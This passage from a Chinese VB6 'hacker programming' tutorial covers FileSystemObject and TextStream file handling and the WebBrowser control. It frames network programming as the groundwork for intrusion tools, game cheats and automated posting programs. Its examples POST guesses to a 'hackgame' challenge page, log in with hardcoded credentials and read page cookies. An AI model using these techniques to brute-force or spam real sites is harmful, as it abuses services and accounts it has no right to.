  该属性可以设置或返回指定文件或文件夹名，是一个可读可写的属性。

- **g) ShortName 属性**  
  该属性用于返回需要较早的 8.3 命名约定的程序所使用的短名字。

- **h) ParentFolder 属性**  
  该属性返回指定文件或文件夹的父文件夹对象，是只读的。

- **i) Path 属性**  
  该属性返回指定文件或文件夹的路径。

- **j) ShortPath 属性**  
  返回需要较早的 8.3 文件命名约定的程序所使用的短路径。

- **k) Size 属性**  
  对于文件来说，返回以字节为单位的指定文件大小。对于文件夹来说，返回以字节为单位的包含在文件夹中的所有文件和子文件夹的大小。

- **l) Type 属性**  
  返回关于某个文件或文件夹类型的信息。例如，对于以 .TXT 结尾的文件来说，返回……“Text Document”。

上面列出了多个属性，并没有直接指出它们的用法，下面简单示例：

```vb
Dim Fso As Object, MyFile As Object
Set Fso = CreateObject("Scripting.FileSystemObject")    ' 创建FSO对象
Set MyFile = Fso.getfile(App.Path & "\1.txt")           ' 返回文件对象
' 下面是获取各种属性的值
MsgBox " 文件的创建日期是" & MyFile.DateCreated
MsgBox " 文件的上次访问日期是" & MyFile.DateLastAccessed
MsgBox " 文件的上次修改日期是" & MyFile.DateLastModified
MsgBox " 文件所在的驱动器是" & MyFile.Drive
MsgBox " 文件的文件名是" & MyFile.Name
MsgBox " 文件的短文件名是" & MyFile.ShortName
MsgBox " 文件的父文件夹是" & MyFile.ParentFolder
MsgBox " 文件的路径是" & MyFile.Path
MsgBox " 文件的短路径是" & MyFile.ShortPath
MsgBox " 文件的大小是" & MyFile.Size
MsgBox " 文件的类型是" & MyFile.Type
```


图2-55 获取文件的文件名

问：这里文件名和短文件名、路径和短路径有什么区别？

答：在早期的命名规则中，如果文件名或路径超过一定的长度，那么它的真实值将被部分替代为“~”。

举个例子，我们在程序目录新建一个文本文件，它的名字是：11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111.txt。很长哦，如果此时我们获取对应文件对象的 Name 属性，返回值将如图2-55所示。


图2-56 获取文件的短文件名

而此时，如果我们获取它的短文件名，得到的结果将如图2-56所示。

路径和短路径的区别亦在于此。此时，返回的 Path 属性值如图2-57所示。若返回的是 ShortPath 短路径的属性，则结果如图2-58所示。相信大家已经理解它们的区别了。


图2-57 文件的 Path 属性值


图2-58 文件的 ShortPath 属性值

上面的文字中，我们介绍 Folder 对象和 File 对象共同具有的一些属性。下面，我们来介绍 Folder 对象私有的 3 个属性，这三个属性文件对象并不具有。请参考下面的表格：

| 属性名 | 功能描述 |
|---|---|
| Files 属性 | 返回由所有 File 对象组成的 Files 集合，这些 File 对象包含在指定的文件夹中——包括设置了隐藏和系统文件属性的那些文件。 |
| IsRootFolder 属性 | 如果指定的文件夹是根文件夹，则返回 True，否则返回 False。 |
| SubFolders 属性 | 返回包含所有文件夹的一个 Folders 集合，这些文件夹包含在某个特定的文件夹中，包括设置了隐藏和系统文件属性的那些文件夹。 |

### a) Files 属性

该属性可以返回一个文件夹中所有的一级文件对象的集合。那么，什么是所谓的一级文件呢？例如：`D:\Temp2\LiJiejie.txt` 这个文件可以说成是 `D:\Temp2` 的一级子文件，而 `D:\Temp2\NoHack\LiJiejie.txt` 由于不在目录 `D:\Temp2` 下，则无法称为文件夹的一级子文件，应称之为二级子文件。

请注意，这里 `Files` 属性返回的是一个对象集合，集合中的每一个元素都是一个文件对象，因此，我们可以对集合中的每一个元素使用文件对象的方法和属性。

下面我们来遍历 `D:\Temp2` 这个文件夹中的所有一级子文件，并添加到一个 `ListBox` 中。首先在窗体中画出一个 `ListBox` 列表框，默认为 `List1`，然后在窗体的载入事件中添加代码：

```vb
Dim Fso As Object, MyFolder As Object, MyFile As Object
Set Fso = CreateObject("Scripting.FileSystemObject")      ' 创建FSO对象
Set MyFolder = Fso.getfolder("D:\Temp2\")                 ' 返回文件夹对象
For Each MyFile In MyFolder.Files                          ' 遍历每一个文件对象元素
    List1.AddItem MyFile.Name                              ' 添加文件对象的Name属性到List1中
Next
```

运行上面的代码，可以发现列表已成功添加，如图2-59所示。

上面的代码中，`MyFolder.Files` 是一个文件对象的集合体。使用 `For Each...Next` 语句，我们访问到了所有的文件对象，并获取了它们的 `Name` 属性。


### b) IsRootFolder 属性

该属性用于判断指定的文件夹是否是根文件夹，如果是返回 `True`，否则返回 `False`。例如，`D:\` 是一个根文件夹；而 `D:\Temp2` 则不是，因为它还有上级文件夹 `D:\`。下面示例判断一个文件夹是否是一个根文件夹：

```vb
Dim Fso As Object, MyFolder As Object
Set Fso = CreateObject("Scripting.FileSystemObject")   ' 创建FSO对象
Set MyFolder = Fso.getfolder("D:\")                    ' 返回一个文件夹对象
If MyFolder.IsRootFolder Then                          ' 如果是根文件夹
    MsgBox "该文件夹是根文件夹"
End If
```

### c) SubFolders 属性

该属性可以返回一个文件夹下所有一级子文件夹对象的集合。什么是所谓的一级子文件夹呢？例如，`D:\Temp2\Lijiejie` 可以说成是 `D:\Temp2` 的一级子文件夹，而 `D:\Temp2\Lijiejie\Nohack` 则是 `D:\Temp2` 的二级子文件夹。下面示例列出文件夹 `D:\Music` 下的所有一级子文件夹并添加到列表框中（`List1`），在窗体载入事件中添加下面的代码：

```vb
Dim Fso As Object, MyFolder As Object, ChildFolder As Object
Set Fso = CreateObject("Scripting.FileSystemObject")      ' 创建FSO对象
Set MyFolder = Fso.getfolder("D:\Music")                  ' 返回文件夹对象
For Each ChildFolder In MyFolder.SubFolders               ' 遍历文件夹对象
    List1.AddItem ChildFolder.Path                        ' 添加每个文件夹对象的Path属性的值到List1中
Next
```

上面的代码运行后如图2-60所示。

以上我们介绍了文件夹对象和文件对象的各种属性。大家可以先总结回顾一下，然后接着看后面的内容。现在我们来介绍它们共有的几个方法，请参考下面的表格：


| 方法名 | 功能描述 |
|---|---|
| Copy 方法 | 用于复制一个文件或文件夹。 |
| Delete 方法 | 删除一个指定的文件或文件夹。 |
| Move 方法 | 将一个指定的文件或文件夹从一个地方移动到另一个地方。 |

### a) Copy 方法

该方法用于复制一个文件或文件夹到另一个地方。它的基本形式是：文件夹对象或文件对象.Copy 目的路径[, 覆盖]。上面的参数“覆盖”是可选的，它默认为 False。我们就用一个文件来示例吧，将 `D:\Temp2\1.txt` 复制到 `D:\Temp\1.txt`。文件夹的操作与之类似：

```vb
Dim Fso As Object, MyFile As Object
Set Fso = CreateObject("Scripting.FileSystemObject")   ' 创建FSO对象
Set MyFile = Fso.getfile("D:\Temp2\1.txt")             ' 返回文件对象
MyFile.Copy "D:\Temp\1.txt"                            ' 复制
```

如果上面移动到的目标路径已经存在，而覆盖参数没有被设置成 True，则会产生一个错误提示“文件已存在”。

### b) Delete 方法

该方法用于删除一个文件或文件夹。它的基本形式是：文件夹对象名或文件对象名.Delete [强制]。参数“强制”是可选的。当该参数为 True 时，即使是只读的文件和文件夹，也会被删除；而当该参数为 False 时，只读的文件和文件夹无法删除。默认情况下，它的值是 False。

> 提示：如果指定的文件或文件夹不存在，则发生错误。

FileSystemObject.DeleteFile 或 FileSystemObject.DeleteFolder 操作的结果是一样的，Delete 方法对于文件夹内是否有内容不作区别。不管指定的文件夹是否有内容，它都被删除。

### c) Move 方法

该方法用于移动一个文件或文件夹。它的基本形式是：文件夹名或文件名.Move 目标路径。

> 提示：Move 方法对一个 File 或 Folder 的结果和执行 FileSystemObject.MoveFile 或 FileSystemObject.MoveFolder 操作的结果是一样的。但应当注意，后面的方法能够移动多个文件或文件夹。

以上介绍的方法是它们共有的，但 Folder 对象和 File 对象也有自己特有的方法。Folder 对象还有 CreateTextFile 方法（这个方法 FileSystemObject 对象同样拥有），File 对象还拥有 OpenAsTextStream 方法。下面我们就介绍一下这两种方法。

### a) Folder 对象的 CreateTextFile 方法

除了 FileSystemObject 对象以外，Folder 对象也拥有 CreateTextFile 方法。它的基本形式是：文件夹对象名.CreateTextFile(文件路径[, 覆盖[, unicode]])。这里需要特别注意参数“文件路径”，它与 FileSystemObject 对象中的“文件路径”参数有很大差别。因为这里用文件夹对象创建文件只能提供文件的相对路径，而不是绝对路径。例如，我们在文件夹 `D:\Temp2` 中创建一个文件 `Nohack.txt`，就可以使用代码：

```vb
Dim Fso As Object, MyFolder As Object, MyFile As Object
Set Fso = CreateObject("Scripting.FileSystemObject")    ' 创建FSO对象
Set MyFolder = Fso.getfolder("D:\Temp2")                ' 返回文件夹对象
Set MyFile = MyFolder.CreateTextFile("Nohack.txt")      ' 创建文件Nohack.txt
MyFile.Write "Www.Nohack.cn"                            ' 写入文本
MyFile.Close                                            ' 关闭文件
```

在上面的代码中，要特别注意第四行代码。此处参数文件路径只能直接写文件名“Nohack.txt”，而不能写“D:\Temp2\Nohack.txt”。因为我们使用的是相对于文件对象的路径，若写入完整路径，则会出错。

如果我们需要跳转到其他目录，则可以使用“..”来跳到上级目录。例如，需要在 `D:\` 中创建文件，则上面的代码改为：

```vb
Dim Fso As Object, MyFolder As Object, MyFile As Object
Set Fso = CreateObject("Scripting.FileSystemObject")      ' 创建FSO对象
Set MyFolder = Fso.getfolder("D:\Temp2")                  ' 返回文件夹对象
Set MyFile = MyFolder.CreateTextFile("..\Nohack.txt")     ' 在D:\中创建文件
MyFile.Write "Www.Nohack.cn"                              ' 写入文本
MyFile.Close                                              ' 关闭文件
```

### b) File 对象的 OpenAsTextStream 方法

该方法可以打开一个指定的文件并返回一个 TextStream 对象，而 TextStream 对象可用来对文件进行读、写、追加操作。它的基本形式是：File 对象名.OpenAsTextStream([iomode[, format]])。两个参数都是可选的。iomode 表明输入输出的方式，而 format 表示打开文件的格式。iomode 参数可为下面设置值中的任何值：

| 常数 | 值 | 描述 |
|---|---:|---|
| ForReading | 1 | 打开一个只读文件，不能对此文件进行写操作。 |
| ForWriting | 2 | 打开一个用于写操作的文件。如果和此文件同名的文件已存在，则覆盖以前内容。 |
| ForAppending | 8 | 打开一个文件并写到文件的尾部。 |

Format 参数可为下面设置值中的任何值：

| 常数 | 值 | 描述 |
|---|---:|---|
| TristateUseDefault | -2 | 使用系统缺省打开文件。 |
| TristateTrue | -1 | 以 Unicode 格式打开文件。 |
| TristateFalse | 0 | 以 ASCII 格式打开文件。 |

OpenAsTextStream 方法提供了和 FileSystemObject 的 OpenTextFile 方法相同的功能。此外，OpenAsTextStream 方法还可以用于对一个文件进行写操作。下面我们示例 File 对象的 OpenAsTextStream 方法：

```vb
Dim Fso As Object, MyFile As Object, MyTextStream As Object
Set Fso = CreateObject("Scripting.FileSystemObject")      ' 创建FSO对象
Set MyFile = Fso.getfile("D:\Temp2\1.txt")                ' 返回文件对象
' 以 OpenAsTextStream 方法返回 TextStream 对象
Set MyTextStream = MyFile.OpenAsTextStream
MsgBox MyTextStream.ReadLine                               ' 读出第一行的内容
MyTextStream.Close                                         ' 关闭 TextStream 对象
```

上面的代码中，首先返回一个文件对象到变量 MyFile 中，然后利用 File 对象的 OpenAsTextStream 方法返回了一个 TextStream 对象到变量 MyTextStream 中，最后使用 TextStream 对象的 ReadLine 方法读出第一行的内容。关于 TextStream 对象的用法，后面将会详细介绍，大家暂不必深究。

到目前为止，我们把 File 对象和 Folder 对象的各种属性和方法一一介绍完毕。FSO 模型中的几个对象还剩下 TextStream 对象没有介绍，它也是我们接下来的内容。

### 2.4.5 TextStream 对象

使用 TextStream 对象可以加快对文件的顺序访问。这个对象可以创建、打开和编辑顺序文件。

#### 1. 返回一个 TextStream 对象

我们要使用 TextStream 对象来编程，首先必须返回一个对象到变量中，也就是建立对象的引用。可以使用 FileSystemObject 对象的 CreateTextFile 方法或 OpenTextFile 方法来取得一个 TextStream 对象，亦可采用 Folder 对象的 CreateTextFile 方法来返回，甚至可以使用 File 对象的 OpenAsTextStream 方法来返回。

> **提示：** 从这里可以看出 FSO 模型的编程灵活性是很大的。然而，大家也需要注意不要混淆各种实现方法。

下面依次示例，以帮助大家熟悉一下。

- a) 使用 FileSystemObject 对象的 CreateTextFile 方法  
  我们在 `D:\Temp2` 中创建一个 `Nohack.txt`，并返回 TextStream 对象。请参考代码：

```vb
Dim Fso As Object, MyFile As Object, MyTextStream As Object
Set Fso = CreateObject("Scripting.FileSystemObject")            ' 创建FSO对象
Set MyTextStream = Fso.CreateTextFile("D:\Temp\Nohack.txt")     ' 返回TextStream对象
MyTextStream.Write "《黑客手册》"                                ' 写入一行文字
MyTextStream.Close                                               ' 关闭文件
```

上面的代码返回了一个 TextStream 对象到变量 MyTextStream 中。

- b) FileSystemObject 对象的 OpenTextFile 方法  
  我们直接打开先前创建的 `D:\Temp2\Nohack.txt` 并返回 TextStream 对象：

```vb
Dim Fso As Object, MyFile As Object, MyTextStream As Object
Set Fso = CreateObject("Scripting.FileSystemObject")            ' 创建FSO对象
' 打开文件返回 TextStream 对象
Set MyTextStream = Fso.OpenTextFile("D:\Temp\Nohack.txt", 8)
MyTextStream.Write "《黑客手册》"                                ' 追加内容
MyTextStream.Close                                               ' 关闭文件
```

### c）使用 Folder 对象的 CreateTextFile 方法

其实 Folder 对象的 CreateTextFile 方法跟 FileSystemObject 的 CreateTextFile 方法没有太大的差别，仅仅是在创建文件的路径参数上，Folder 对象的 CreateTextFile 方法只能使用相对路径。请参考例子：

```vb
Dim Fso As Object, MyFolder As Object, MyTextStream As Object
Set Fso = CreateObject("Scripting.FileSystemObject")           ' 创建FSO对象
Set MyFolder = Fso.GetFolder("D:\Temp2")                       ' 返回文件夹对象
Set MyTextStream = MyFolder.CreateTextFile("lijiejie.txt")     ' 返回TextStream对象
MyTextStream.Write "just a test."
MyTextStream.Close                                              ' 关闭文件
```

### d）使用 File 对象的 OpenAsTextStream 方法

这个在上面讲述 File 对象的方法时已给出了完整的例子。为了让大家更加熟悉，还是请看例子吧：

```vb
Dim Fso As Object, MyFile As Object, MyTextStream As Object
Set Fso = CreateObject("Scripting.FileSystemObject")      ' 创建FSO对象
Set MyFile = Fso.GetFile("D:\Temp2\1.txt")                ' 返回文件对象
' 以 OpenAsTextStream 方法返回 TextStream 对象
Set MyTextStream = MyFile.OpenAsTextStream
MsgBox MyTextStream.ReadLine                               ' 读出第一行的内容
MyTextStream.Close                                         ' 关闭TextStream对象
```

## 2．文件中的光标

文件操作涉及到了光标的问题，当光标在哪个位置时，我们就可以在这个位置上进行读写操作。TextStream 提供了用于判断文件光标的属性和用于移动文件光标的方法，请参考下面的表格：

| 属性名 | 功能描述 |
|---|---|
| AtEndOfLine 属性 | 只读属性，在 TextStream 文件中，如果文件指针正好在行尾标记的前面，那么该属性值返回 True，否则返回 False。 |
| AtEndOfStream 属性 | 只读属性，如果文件指针在 TextStream 文件末尾，则该属性值返回 True，否则返回 False。 |
| Column 属性 | 只读属性，返回 TextStream 文件中当前字符位置的列号。 |
| Line 属性 | 只读属性，返回一个 TextStream 文件中的当前行号。 |

| 方法名 | 功能描述 |
|---|---|
| Skip 方法 | 当读一个 TextStream 文件时跳过指定数量的字符。 |
| SkipLine 方法 | 当读一个 TextStream 文件时跳过下一行。 |

下面我们分别介绍这两种方法。

### a）Skip 方法

该方法在读一个 TextStream 文件时跳过指定数目的字符。下面示例，文件 D:\Temp2\lijiejie.txt 中的内容是“Just a test”，我们使用 Skip 方法跳过两个字符而不读取：

```vb
Dim Fso As Object, MyTextStream As Object
Set Fso = CreateObject("Scripting.FileSystemObject")           ' 创建FSO对象
Set MyTextStream = Fso.OpenTextFile("D:\Temp2\lijiejie.txt")   ' 返回 TextStream 对象
MyTextStream.Skip (2)                                           ' 跳过 2 个字符
MsgBox MyTextStream.ReadLine                                    ' 读取一行内容
MyTextStream.Close                                              ' 关闭文件
```


图 2-61 使用 Skip 方法跳过字符

运行上面的代码，结果如图 2-61 所示。可以看到，前两个字符“J u”已经被跳过而没有读取出来。

### b）SkipLine 方法

该方法用于跳过一行字符。它的基本形式是：TextStream 对象名.SkipLine。因为使用非常简单，不再示例。

## 3．使用 TextStream 对象读入数据

打开文件并返回一个 TextStream 对象之后我们可以读入数据，使用到的方法可能是下面 3 个：

| 方法名 | 功能 |
|---|---|
| Read 方法 | 从一个 TextStream 文件中读取指定数量的字符并返回得到的字符串。 |
| ReadAll 方法 | 读取整个 TextStream 文件并返回得到的字符串。 |
| ReadLine 方法 | 从一个 TextStream 文件读取一整行（到换行符但不包括换行符）并返回得到的字符串。 |

### a）Read 方法

该方法用于从文件中读入并返回指定数量的字符。它的基本形式是：TextStream 对象名.Read(字符数)。例如，我们需要读入 10 个字符，就可以使用：

```vb
MsgBox MyTextStream.Read(10)    ' 读入十个字符并提示
```

### b）ReadAll 方法

该方法用于读入并返回文本中的所有字符。它的基本形式是：TextStream 对象名.ReadAll。例如，我们需要获取 D:\Temp2\Lijiejie.txt 的所有内容，就可以使用下面的代码：

```vb
Dim Fso As Object, MyFolder As Object, MyTextStream As Object
Set Fso = CreateObject("Scripting.FileSystemObject")           ' 创建 FSO 对象
Set MyTextStream = Fso.OpenTextFile("D:\Temp2\lijiejie.txt")   ' 返回 TextStream 对象
MsgBox MyTextStream.ReadAll                                     ' 返回文本的所有内容
MyTextStream.Close                                              ' 关闭文件
```

当然，如果你想要跳过一定的字符或行数，也可以先使用 Skip 方法和 SkipLine 方法跳过去。

### c）ReadLine 方法

该方法用于从一个 TextStream 文件读取一整行（到换行符但不包括换行符）并返回得到的字符串。每读入一行，光标都会移动到行尾，所以，我们可以用它来逐行读入整个文本：

```vb
Dim Fso As Object, MyFolder As Object, MyTextStream As Object
Set Fso = CreateObject("Scripting.FileSystemObject")           ' 创建 FSO 对象
Set MyTextStream = Fso.OpenTextFile("D:\Temp2\lijiejie.txt")   ' 返回 TextStream 对象
Dim AllText As String                                           ' 用于保存文本所有内容的变量
While Not MyTextStream.AtEndOfStream                           ' 循环直到文件尾
    ' 添加行内容到 AllText 变量中
    AllText = AllText & MyTextStream.ReadLine & Chr(13) & Chr(10)
Wend
MyTextStream.Close
MsgBox AllText                                                  ' 提示文本的所有内容
```

## 4．使用 TextStream 对象写入数据

TextStream 对象在写入数据时，可以利用下面的 3 种方法：

| 方法名 | 功能 |
|---|---|
| Write 方法 | 写一个指定的字符串到一个 TextStream 文件。 |
| WriteBlankLines 方法 | 写入指定数量的换行符到一个 TextStream 文件中。 |
| WriteLine 方法 | 写入一个指定的字符串和换行符到一个 TextStream 文件中。 |

下面我们分别对这三种方法作介绍。

- a）Write 方法

该方法用于写入指定的字符串到一个 TextStream 文件中。它的基本形式是：TextStream 对象名.WriteLine([字符串])。上面的参数“字符串”是可选的，如果省略，则写入一个换行符。

- b）WriteBlankLines 方法

该方法用于写入指定数量的换行符到一个 TextStream 文件中。它的基本形式是：TextStream 对象名.WriteBlankLines(行数)。参数行数是需要写入换行符的数量。

- c）WriteLine 方法

该方法用于写入一个指定的字符串和换行符到一个 TextStream 文件中。它的基本形式是：TextStream 对象名.WriteLine([字符串])。参数中的“字符串”如果省略，则一个换行符被写入文件中。

## 2.5 本章小结

本章非常完整地介绍了文件编程的内容，包括传统文件访问方法和使用 FSO 对象模型进行编程。在实际编码过程中，这两种方式可以混用，只要条理清楚，代码量较少即可。文件编程是基础的内容，而且应用非常广泛，大家应熟悉掌握。

## 第三章

## 网络编程


## 3.1 引言

网络编程是黑客编程中最重要的部分之一，因为很多的入侵工具都是基于网络的应用，例如游戏外挂、注入工具、扫描工具等。同时，也正是因为有了网络，才会有黑客的存在。在网络编程这一章节中，我们将着重介绍两个非常重要的控件：WebBrowser（浏览器控件）和 Internet Transfer 控件。

掌握了本章的内容，我们将很容易地对网页内容进行分析、使用控件上传下载文件、写出一些 Web 扫描工具，甚至可以自己写出一个 Web 上的自动留言程序、多线程的后台扫描工具。

## 3.2 WebBrowser 控件

下面的内容是微软网站上对 WebBrowser 控件的部分介绍：使用 WebBrowser 控件，可以复制应用程序中的 Internet Explorer Web 浏览功能，还可以禁用默认的 Internet Explorer 功能，并将该控件用作简单的 HTML 文档查看器。此外，可以使用该控件将基于 DHTML 的用户界面元素添加到窗体中，还可以隐瞒这些元素在 WebBrowser 控件中承载的事实。通过这种方法，可以将 Web 控件和 Windows 窗体控件无缝地整合到一个应用程序中。

WebBrowser 控件包含了多种可以用来实现 Internet Explorer 中功能的属性、方法和事件。例如，可以使用 Navigate 方法实现访问网页，使用 GoBack（后退）、GoForward（前进）、Stop（停止）和 Refresh（刷新）这几个方法实现工具栏中的导航按钮。

WebBrowser 可以处理 Navigated 事件，以便使用 URL 属性的值更新地址栏，使用 DocumentTitle 属性的值更新标题栏。


图 3-1 添加 WebBrowser 控件到工具箱中

我们之所以举这些例子是想说明 Internet Explorer 浏览器能实现的大部分功能，WebBrowser 控件都是能够实现的。WebBrowser 翻译为中文即“网页浏览器”。读者朋友们一定很期待了吧？

WebBrowser 控件不是基本控件，而是一个 ActiveX 控件，我们必须自行添加到工具箱中。在工具箱中单击右键，选择菜单中的“部件”，出现如图 3-1 所示的窗体。


图 3-2 勾选 Microsoft Internet Controls

在“控件”这个选项卡中勾选“Microsoft Internet Controls”，如图 3-2 所示。然后点击“确定”，可以发现一个地球状的图标加入到了我们的工具箱中，这就是我们要介绍的主角“WebBrowser 控件”。将一个 WebBrowser 控件画到窗体中的方法与其他的基本控件类似。

好了，下面先来示例使用 WebBrowser 控件打开一个网页。第一步，在窗体中画一个 WebBrowser 控件；第二步，在窗体的载入事件中写入一行代码：

```vb
Private Sub Form_Load()
    WebBrowser1.Navigate "http://www.baidu.com"   ' 打开网页
End Sub
```

运行后网页在 WebBrowser 中被打开，如图 3-3 所示。上面的代码使用到了 WebBrowser 控件的 Navigate 方法，这在后面会有详细介绍。


图 3-3 使用 WebBrowser 打开网页

### 3.2.1 WebBrowser 控件的常用方法

WebBrowser 控件常用的方法请参考下面的表格：

| 方法名 | 方法功能说明 |
|---|---|
| GoBack | 相当于 IE 的“后退”按钮，使你在当前历史列表中后退一项 |
| GoForward | 相当于 IE 的“前进”按钮，使你在当前历史列表中前进一项 |
| GoHome | 相当于 IE 的“主页”按钮，连接用户默认的主页 |
| GoSearch | 相当于 IE 的“搜索”按钮，连接用户默认的搜索页面 |
| Navigate | 连接到指定的 URL |
| Refresh | 刷新当前页面 |
| Stop | 相当于 IE 的“停止”按钮，停止当前页面及其内容的载入 |


图 3-4 窗体中添加的控件

下面我们对上面的几种方法一一介绍。

### a）GoBack 方法

该方法相当于 IE 中的“后退”按钮，使你在当前历史列表中后退一项，显示你上一个访问过的网址对应的页面。请看下面的示例。在窗体中画一个 WebBrowser 控件，3 个按钮，依次是 Command1、Command2、Command3，如图 3-4 所示。然后分别为它们添加代码：

```vb
Private Sub Command1_Click()
    WebBrowser1.Navigate "http://www.google.cn"   ' 单击按钮1，打开Google
End Sub

Private Sub Command2_Click()
    WebBrowser1.Navigate "http://www.baidu.com"   ' 单击按钮2，打开百度
End Sub

Private Sub Command3_Click()
    WebBrowser1.GoBack                            ' 单击按钮3，后退
End Sub
```

运行程序后，我们单击“打开 Google”，再单击“打开 baidu”，依次打开两个网站。当我们接下来单击“后退”按钮时，可以发现 WebBrowser 后退到了 Google 的页面。这里 GoBack 方法实现的功能跟 IE 浏览器中的“后退”是一样的。但是请注意，这里后退并不是重新打开，只是显示之前打开过的页面而已，并非再一次连接这个页面的 URL。

### b）GoForward 方法

该方法相当于 IE 的“前进”按钮，使你在当前历史列表中前进一项。它的基本形式是：WebBrowser 对象名.GoForward。

### c）GoHome 方法

该方法相当于 IE 的“主页”按钮，使用它可以连接用户默认的主页。它的基本形式是：WebBrowser 对象名.GoHome。

### d）GoSearch 方法

该方法相当于 IE 的“搜索”按钮，连接用户默认的搜索页面。它的基本形式是：WebBrowser 对象名.GoSearch。

### e）Navigate 方法

该方法用于打开一个指定的 URL。它的基本形式是：WebBrowser 对象名.Navigate URL[, Flags][, TargetFrameName][, PostData][, Headers]。上面的所有参数，除了 URL 以外，其他的都是可选的。参数 URL 代表了我们需要打开的网址。事实上，我们也可以输入一个本地文件的地址，例如 D:\WebServer\index.HTML。参数 PostData 是我们需要向页面提交的数据，它可以是以 Post 方式提交的数据，类似于 username=nohack 或者 username=nohack&password=123456。多个参数中间以“&”符号隔开。参数 Headers 是提交 HTTP 数据时的头信息。如果是以 Post 方法提交，则可以设置成“Content-Type: application/x-www-form-urlencoded”。


使用 WebBrowser 控件除了能直接打开某个网页外，还可以向这个网页提交参数。请看下面的例子。页面 http://www.lijiejie.cn/hackgame/four/index.ASP 是一个动态 ASP 页，它要求我们可以提交一个 1 到 1000 之间的数字，如图 3-5 所示。

通过查看这个页面的源代码，可以发现表单中有一个元素 NumPass 是用于提交数字的，如下：

```html
<form name=form1 method=post><hr><br>
<font color=yellow><b>请输入1到1000之间的某一个数字通关:</font></b><br><br>
<input type=text name=numpass>
<input type=submit value="提交">
</form>
```


上面是一段很简单的 HTML 代码，它指明了我们需要提交的这个参数名称为 numpass（如果大家对 HTML 不熟悉，亦不必深究）。所以，如果我们要提交一个数字 100，就可以提交这种形式的数据：Numpass=100。接下来进行实战吧！

首先，在工具箱中单击右键，添加“部件”，将 WebBrowser 控件添加到工具箱中。然后画一个 WebBrowser 和一个按钮到窗体中，为按钮的单击事件添加下面的代码：

```vb
Dim URL As String
Dim PostData() As Byte
Dim Headers As String
URL = "http://www.lijiejie.cn/hackgame/four/index.ASP"
PostData = "numpass=122"
' 将数据由 Unicode 转成系统的缺省码页。
PostData = StrConv(PostData, vbFromUnicode)
Headers = "Content-Type: application/x-www-form-urlencoded"
WebBrowser1.Navigate URL, 0, "", PostData, Headers
```

运行上面的代码，会提示“密码错误”，如图 3-6 所示。

可以看出，我们的密码已经成功提交了，因为如果没有提交任何数据，这个网页不会返回任何提示的。

> 提示：上面的例子中，PostData 默认为 Unicode 字符串，我们必须使用 StrConv 函数将字符串由 Unicode 转成系统的缺省码页。


上面的例子中，我们只提交了一个参数，下面再示例提交两个参数。我们使用 WebBrowser 来实现网页的登录，只要设置好我们的 PostData 参数，就非常简单了。首先查看登录页面，如图 3-7 所示，需要填写用户名和密码。然后查看该登录页面的 HTML 代码，找出表单中的元素：

```html
<form name=form1 method="post" action=login.ASP>
<font family="楷体_GB2312">
请输入你的用户名：
</font>
<input type=text name=username maxlength=15 size=10>
<br>
请输入你的密码：
<input type=password name=pass maxlength=15 size=10>
<br>
<input type=submit name=submit value="提交">
<input type=reset name=reset value="重置">
</form>
```


提示一下，`<form>` 和 `</form>` 两个标签之间的部分是表单的信息。可以看出，两个元素的名称分别是：username 和 pass，action 提交的地址是 login.ASP。我自己有一个账号，用户名为 admin，密码为 yes。因此我们需要提交的数据形式是：username=admin&pass=yes。

> 提示：表单是一个容器，它用于收集和传递数据。对于动态网页编程来讲，表单是极为重要的，因为用户提交数据必须使用到表单。

在窗体中添加一个 WebBrowser 控件和一个 Command 按钮，并为按钮的单击事件添加下面的代码：

```vb
Private Sub Command1_Click()
    Dim URL As String
    Dim PostData() As Byte
    Dim Headers As String
    URL = "http://www.lijiejie.cn/hackgame/part2/login.ASP"
    PostData = "username=admin&pass=yes"
    PostData = StrConv(PostData, vbFromUnicode)
    Headers = "Content-Type: application/x-www-form-urlencoded"
    WebBrowser1.Navigate URL, 0, "", PostData, Headers
End Sub
```

运行上面的程序，然后按下按钮，可以发现我们的账号已经登录成功了，如图 3-8 所示。Navigate 方法是 WebBrowser 最重要的方法之一，我们对 Navigate 方法的介绍到此结束。

#### f) Refresh 方法

该方法用于刷新当前页面，它的基本形式是：WebBrowser 对象名.Refresh，这跟 IE 的刷新功能是一样的。

#### g) Stop 方法

该方法相当于 IE 的“停止”按钮，停止当前页面及其内容的载入。

#### h) 总结

了解完 WebBrowser 以上的几种方法，其实我们就可以实现一个简易的浏览器了，这个浏览器可以打开页面、刷新、后退、前进、停止。当然了，这样的浏览器还是很简陋的，我们在继续了解 WebBrowser 的属性之后可以做得更全面一些。

### 3.2.2 WebBrowser 控件的常用属性

WebBrowser 控件最常用的几个属性及其功能说明请参考下面的表格：

| 属性名 | 功能说明 |
|---|---|
| Document | 为活动的文档返回自动化对象。如果 HTML 当前正被显示在 WebBrowser 中，则 Document 属性提供对 DHTML Object Model 的访问途径。 |
| TopLevelContainer | 返回一个 Boolean 值，表明 IE 是否是 WebBrowser 控件顶层容器；是就返回 True。 |
| Type | 返回已被 WebBrowser 控件加载的对象的类型。例如，如果加载 .doc 文件，就会返回 Microsoft Word Document。 |
| Left | 返回或设置 WebBrowser 控件窗口的内部左边与容器窗口左边的距离。 |
| Top | 返回或设置 WebBrowser 控件窗口的内部顶部与容器窗口顶边的距离。 |
| Width | 返回或设置 WebBrowser 窗口的宽度，以像素为单位。 |
| Height | 返回或设置 WebBrowser 窗口的高度，以像素为单位。 |
| LocationName | 返回一个字符串，该字符串包含着 WebBrowser 当前显示的资源名称；如果资源是网页就是网页标题；如果是文件或文件夹，就是文件或文件夹的名称。 |
| LocationURL | 返回 WebBrowser 当前正在显示的资源的 URL。 |
| Busy | 返回一个 Boolean 值，说明 WebBrowser 当前是否正在加载 URL；如果返回 True 就可以使用 Stop 方法来撤销正在执行的访问操作。 |

#### a) Document

该属性用于返回一个 Document 文档对象，即我们正在浏览的页面。通过这个 Document 对象，我们可以获取网页上许多元素的属性值。例如，我们需要获取页面中的 Cookies，就可以使用代码：WebBrowser1.Document.cookie。


简单示例其使用方法。在窗体中画一个 WebBrowser 控件和一个按钮，添加如下代码：

```vb
Private Sub Command1_Click()
    MsgBox WebBrowser1.Document.cookie    ' 返回页面中的 Cookies
End Sub

Private Sub Form_Load()
    WebBrowser1.Navigate "http://www.baidu.com"    ' 在窗体载入时打开百度
End Sub
```

运行后如图 3-9 所示。


> **提示：** 为什么我们要先打开百度？这是因为，我们必须先打开一个页面，才能成功地返回 Document 对象，否则会出现错误。

如果我们不打开任何页面，而直接使用 WebBrowser1.Document.cookie，则会出现如图 3-10 所示的错误。关于 Document 对象的使用，我们会在后面作详细介绍。

